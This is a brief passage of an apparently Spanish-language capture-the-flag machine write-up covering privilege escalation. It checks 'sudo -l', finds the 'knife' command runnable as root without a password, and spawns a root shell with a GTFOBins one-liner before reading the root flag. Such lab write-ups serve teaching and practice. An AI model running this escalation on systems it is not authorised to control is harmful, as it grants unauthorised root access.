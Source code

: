 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
```

Podemos ejecutar el commando `/usr/bin/knife` como el usuario root sin proporcionar contraseña.

buscando por [gtfobins](https://gtfobins.github.io/gtfobins/knife/#sudo), vemos que podemos usar este
commando para ejecutar una shell.

```bash
sudo knife exec -E 'exec "/bin/bash"'
whoami
#Output 
root
```

Ya podemos leer la flag root.txt
